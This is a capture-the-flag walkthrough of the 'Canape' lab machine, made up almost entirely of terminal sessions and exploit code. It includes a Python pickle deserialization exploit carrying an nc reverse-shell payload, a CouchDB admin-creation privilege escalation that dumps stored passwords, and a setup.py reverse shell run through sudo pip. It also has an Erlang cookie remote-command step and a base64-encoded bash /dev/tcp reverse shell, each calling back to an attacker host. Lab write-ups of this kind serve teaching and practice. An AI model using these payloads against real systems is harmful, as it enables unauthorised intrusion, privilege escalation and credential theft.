

#### Canape

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Python Deserialization for limited shell](#python-deserialization-for-limited-shell)
- [User Shell](#user-shell)
- [Root Shell](#root-shell)
- [RCE Exploit for CouchDB](#rce-exploit-for-couchdb)
- [Reference](#reference)

###### Attacker Info

```sh
root@kali:~/canape# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:7f:39:f2 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.82/24 brd 10.0.0.255 scope global dynamic noprefixroute eth0
       valid_lft 604695sec preferred_lft 604695sec
    inet6 2601:5cc:c900:4024::b31c/128 scope global dynamic noprefixroute
       valid_lft 604697sec preferred_lft 604697sec
    inet6 2601:5cc:c900:4024:6175:8eb:94e:3235/64 scope global temporary dynamic
       valid_lft 64438sec preferred_lft 64438sec
    inet6 2601:5cc:c900:4024:20c:29ff:fe7f:39f2/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 64438sec preferred_lft 64438sec
    inet6 fe80::20c:29ff:fe7f:39f2/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.5/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1003/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::a09f:e96a:f652:3c0e/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/canape#
```

###### Nmap Scan

```sh
root@kali:~/canape# nmap -sC -sV -oA canape.nmap 10.10.10.70
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-10 16:07 EST
Nmap scan report for 10.10.10.70
Host is up (0.16s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-git:
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Simpsons Fan Site
|_http-trane-info: Problem with XML parsing of /evox/about

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.42 seconds
root@kali:~/canape#
```


###### Web Enumeration

```
http://10.10.10.70/
http://10.10.10.70/check
view-source:http://10.10.10.70/
```


```sh
root@kali:~/canape# wfuzz --help
--hc/hl/hw/hh N[,N]+	    : Hide responses with the specified code/lines/words/chars (Use BBB for taking values from baseline)
```

```sh
root@kali:~/canape# wfuzz --hw 1 --hh 3076 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.70/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.70/FUZZ
Total requests: 220560

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000185:  C=200     81 L	     167 W	   2836 Ch	  "submit"
000269:  C=301      9 L	      28 W	    311 Ch	  "static"
000687:  C=200     85 L	     227 W	   3154 Ch	  "quotes"
001328:  C=405      4 L	      23 W	    178 Ch	  "check"
022971:  C=404      9 L	      32 W	    285 Ch	  "http%3A%2F%2Fwww"
055697:  C=404      9 L	      32 W	    289 Ch	  "http%3A%2F%2Fyoutube"
069486:  C=404      9 L	      32 W	    287 Ch	  "http%3A%2F%2Fblogs"
071515:  C=404      9 L	      32 W	    286 Ch	  "http%3A%2F%2Fblog"
079554:  C=200      0 L	       1 W	     78 Ch	  "tips2007"^C
Finishing pending requests...
root@kali:~/canape#
```

```sh
root@kali:~/canape# wfuzz --hw 1 --hh 3076 -w /opt/SecLists/Discovery/Web-Content/common.txt http://10.10.10.70/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.70/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000008:  C=200      1 L	       2 W	     23 Ch	  ".git/HEAD"
000949:  C=403     11 L	      32 W	    294 Ch	  "cgi-bin/"
000983:  C=405      4 L	      23 W	    178 Ch	  "check"
003286:  C=200     85 L	     227 W	   3154 Ch	  "quotes"
003597:  C=403     11 L	      32 W	    299 Ch	  "server-status"
003837:  C=301      9 L	      28 W	    311 Ch	  "static"
003881:  C=200     81 L	     167 W	   2836 Ch	  "submit"

Total time: 60.06966
Processed Requests: 4593
Filtered Requests: 4586
Requests/sec.: 76.46121

root@kali:~/canape#
```

```
http://10.10.10.70/.git/
http://10.10.10.70/.git/config
```


```sh
root@kali:~/canape# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
10.10.10.70	git.canape.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/canape#
```

```sh
root@kali:~/canape# git clone http://git.canape.htb/simpsons.git
Cloning into 'simpsons'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 49 (delta 18), reused 0 (delta 0)
Unpacking objects: 100% (49/49), done.
root@kali:~/canape#
root@kali:~/canape# cd simpsons/
root@kali:~/canape/simpsons# ls -lah
total 24K
drwxr-xr-x 5 root root 4.0K Nov 11 10:51 .
drwxr-xr-x 3 root root 4.0K Nov 11 10:51 ..
drwxr-xr-x 8 root root 4.0K Nov 11 10:51 .git
-rw-r--r-- 1 root root 2.0K Nov 11 10:51 __init__.py
drwxr-xr-x 4 root root 4.0K Nov 11 10:51 static
drwxr-xr-x 2 root root 4.0K Nov 11 10:51 templates
root@kali:~/canape/simpsons#
```

```sh
root@kali:~/canape/simpsons# git log
```


###### Python Deserialization for limited shell

```sh
root@kali:~/canape/simpsons# git diff c8a74a098a60aaea1af98945bd707a7eab0ff4b0
```


```
http://10.10.10.70/submit
```


`pickepexp.py`

```python
import os
import pickle
import cPickle
from hashlib import md5
import requests

class RandomName(object):
	def __reduce__(self):
		return (os.system, ('echo homer!;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f',))

sc = cPickle.dumps(RandomName())
print sc

char, quote = sc.split("!")
p_id = md5(char + quote).hexdigest()

requests.post("http://10.10.10.70/submit", data={'character': char, 'quote': quote})

requests.post("http://10.10.10.70/check", data={'id': p_id})
```

```sh
root@kali:~/canape# python pickepexp.py
cposix
system
p1
(S'echo homer!;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f'
p2
tp3
Rp4
.
```

- [`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

```sh
root@kali:~/canape# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.70] 42738
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@canape:/$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@kali:~/canape# echo $TERM
xterm-256color
root@kali:~/canape# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/canape# stty raw -echo
root@kali:~/canape# nc -nlvp 9001
                                 reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@canape:/$ export SHELL=bash
www-data@canape:/$ stty rows 51 columns 204
www-data@canape:/$
```

```sh
www-data@canape:/$ ps -aux | grep root | grep couchdb
root        668  0.0  0.0   4240   668 ?        Ss   Nov04   0:00 runsv couchdb
root        671  0.0  0.0   4384   680 ?        S    Nov04   0:00 svlogd -tt /var/log/couchdb
homer       675  0.4  3.5 651392 35188 ?        Sl   Nov04  38:57 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
www-data@canape:/$
```

- couchdb default port - `5984`
- [`couchdb API Reference`](http://docs.couchdb.org/en/2.2.0/api/index.html)


```sh
root@kali:~/canape# searchsploit couchdb
------------------------------------------------------------ ----------------------------------------
 Exploit Title                                              |  Path
                                                            | (/usr/share/exploitdb/)
------------------------------------------------------------ ----------------------------------------
Apache CouchDB - Arbitrary Command Execution (Metasploit)   | exploits/linux/remote/45019.rb
Apache CouchDB 1.5.0 - 'uuids' Denial of Service            | exploits/multiple/dos/32519.txt
Apache CouchDB 1.7.0 / 2.x < 2.1.1 - Remote Privilege Escal | exploits/linux/webapps/44498.py
Apache CouchDB 2.0.0 - Local Privilege Escalation           | exploits/windows/local/40865.txt
Apache CouchDB < 2.1.0 - Remote Code Execution              | exploits/linux/webapps/44913.py
------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
root@kali:~/canape#
```

```sh
www-data@canape:/tmp$ curl 127.0.0.1:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl 127.0.0.1:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
www-data@canape:/tmp$
www-data@canape:/tmp$ curl 127.0.0.1:5984/_dbs_info
{"error":"unauthorized","reason":"You are not a server admin."}
www-data@canape:/tmp$
```

```sh
www-data@canape:/tmp$ curl -X PUT 'http://127.0.0.1:5984/_users/org.couchdb.user:dex' --data-binary '{
> "type": "user",
> "name": "dex",
> "roles": ["_admin"],
> "roles": [],
> "password": "dex"
> }'
{"ok":true,"id":"org.couchdb.user:dex","rev":"1-125129fbb917636856fe5662f41efe97"}
www-data@canape:/tmp$
```

```sh
www-data@canape:/tmp$ curl 127.0.0.1:5984/passwords
{"error":"unauthorized","reason":"You are not authorized to access this db."}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords
{"db_name":"passwords","update_seq":"46-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkR2PoiQFIJlkD1bHik-dA0hdPGF1CSB19QTV5bEASYYGIAVUOp8YtQsgavcTo_YARO39rER8AQRR-wCiFuhetiwA7ytvXA","sizes":{"file":222462,"external":665,"active":1740},"purge_seq":0,"other":{"data_size":665},"doc_del_count":0,"doc_count":4,"disk_size":222462,"disk_format_version":6,"data_size":1740,"compact_running":false,"instance_start_time":"0"}
www-data@canape:/tmp$
```

```sh
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
www-data@canape:/tmp$
www-data@canape:/tmp$ curl --user "dex:dex" 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
www-data@canape:/tmp$
```

###### User Shell

```sh
www-data@canape:/tmp$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
epmd:x:108:116::/var/run/epmd:/bin/false
colord:x:109:118:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
gitlab-prometheus:x:995:995::/var/opt/gitlab/prometheus:/bin/sh
www-data@canape:/tmp$
```

```sh
www-data@canape:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@canape:/tmp$
```

```sh
www-data@canape:/tmp$ su homer -
Password:
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
homer@canape:/tmp$
homer@canape:/tmp$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
homer@canape:/tmp$
```

```sh
homer@canape:/tmp$ cd /home
homer@canape:/home$ ls -l
total 4
drwxrwx--- 12 homer homer 4096 Jan 23  2018 homer
homer@canape:/home$ cd homer/
homer@canape:~$ ls -l
total 140
drwxrwx---  2 homer homer   4096 Jan 14  2018 bin
drwxr-xr-x  5 homer homer   4096 Jan 14  2018 data
drwxrwx---  5 homer homer   4096 Jan 14  2018 erts-7.3
drwxrwx---  2 homer homer   4096 Jan 20  2018 etc
drwxrwx--- 45 homer homer   4096 Jan 14  2018 lib
-rw-r--r--  1 homer homer 102450 Jan 14  2018 LICENSE
drwxrwx---  3 homer homer   4096 Jan 14  2018 releases
drwxrwx---  5 homer homer   4096 Jan 14  2018 share
-r--r-----  1 root  homer     33 Jan 14  2018 user.txt
drwxrwx---  3 homer homer   4096 Jan 14  2018 var
homer@canape:~$ cat user.txt
bce918696f293e62b2321703bb27288d
homer@canape:~$
```

###### Root Shell

```sh
homer@canape:~$ sudo -l
sudo: no tty present and no askpass program specified
homer@canape:~$
```

```sh
homer@canape:~$
homer@canape:~$ python -c 'import pty; pty.spawn("/bin/bash")'
homer@canape:~$
```

```sh
homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
homer@canape:~$
```

```sh
mkdir exploit-pip
cd exploit-pip
vim setup.py
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```sh
homer@canape:~/exploit-pip$ sudo pip install .
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /home/homer/exploit-pip
```

```sh
root@kali:~/canape# nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.70] 35728
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
928c3df1a12d7f67d2e8c2937120976d
#
```


###### RCE Exploit for CouchDB

```sh
root@kali:~/canape# python pickepexp.py
cposix
system
p1
(S'echo homer!;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f'
p2
tp3
Rp4
.
```

```sh
root@kali:~/canape# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.70] 42810
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@canape:/$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@kali:~/canape# echo $TERM
xterm-256color
root@kali:~/canape# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/canape# stty raw -echo
root@kali:~/canape# nc -nlvp 9001
                                 reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@canape:/$ stty rows 51 columns 204
www-data@canape:/$
```

```sh
root@kali:~/canape# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.70 - - [11/Nov/2018 21:07:18] "GET /44913.py HTTP/1.1" 200 -
```

```sh
www-data@canape:/$ cd /dev/shm/
www-data@canape:/dev/shm$ wget http://10.10.14.5:8000/44913.py
--2018-11-11 18:06:12--  http://10.10.14.5:8000/44913.py
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4989 (4.9K) [text/plain]
Saving to: '44913.py'

44913.py                                           100%[================================================================================================================>]   4.87K  --.-KB/s    in 0s

2018-11-11 18:06:13 (244 MB/s) - '44913.py' saved [4989/4989]

www-data@canape:/dev/shm$
```

- [`couchdb - 11.1. Set Up`](http://docs.couchdb.org/en/2.2.0/cluster/setup.html)
- [`13 Distributed Erlang`](http://erlang.org/doc/reference_manual/distributed.html)
- [`learnyousomeerlang - Cookies`](https://learnyousomeerlang.com/distribunomicon)
- [`couchdb - cookie`](https://github.com/apache/couchdb/search?q=cookie&unscoped_q=cookie)




```sh
www-data@canape:/dev/shm$ netstat -anlp | grep 4369
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:45373         127.0.0.1:4369          ESTABLISHED -
tcp        0      0 127.0.0.1:4369          127.0.0.1:45373         ESTABLISHED -
tcp6       0      0 :::4369                 :::*                    LISTEN      -
www-data@canape:/dev/shm$
```

```sh
www-data@canape:/dev/shm$ export HOME=/dev/shm
www-data@canape:~$ erl -sname dex -setcookie monster
Eshell V7.3  (abort with ^G)
(dex@canape)1> net_kernel:connect('couchdb@localhost').
true
(dex@canape)2> nodes().
[couchdb@localhost]
(dex@canape)4> os:cmd("whoami").
"www-data\n"
(dex@canape)5> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
(dex@canape)6>
```

```sh
root@kali:~/canape# echo -n 'bash -i >& /dev/tcp/10.10.14.5/9008 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzkwMDggMD4mMQ==
root@kali:~/canape#
```

```sh
(dex@canape)2> rpc:call('couchdb@localhost', os, cmd, ['echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzkwMDggMD4mMQ== | base64 -d | bash']).
```

```sh
root@kali:~/canape# nc -nlvp 9008
listening on [any] 9008 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.70] 42882
bash: cannot set terminal process group (21623): Inappropriate ioctl for device
bash: no job control in this shell
homer@canape:~$ id
id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
homer@canape:~$
```

###### Reference

- Python Deserialization
	- [`Sour Pickles - Paper`](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf)
	- [`BlackHat 2011 - Sour Pickles, A serialised exploitation guide in one part`](https://www.youtube.com/watch?v=HsZWFMKsM08)
- [`Erlang Authenticated Remote Code Execution`](https://malicious.link/post/2018/erlang-arce/)